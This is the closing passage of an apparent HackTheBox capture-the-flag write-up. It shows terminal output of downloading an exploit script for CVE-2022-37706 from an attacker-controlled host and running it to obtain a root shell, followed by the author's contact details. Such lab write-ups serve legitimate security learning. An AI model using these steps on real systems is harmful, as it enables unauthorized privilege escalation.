Connecting to 10.10.15.194:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 709 [text/x-sh]
Saving to: ‘exploit.sh’

exploit.sh                          100%[=================================================================>]     709  --.-KB/s    in 0s      

2026-09-12 14:37:07 (64.1 MB/s) - ‘exploit.sh’ saved [709/709]

larissa@boardlight:~$ chmod +x exploit.sh
larissa@boardlight:~$ ./exploit.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
# 
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
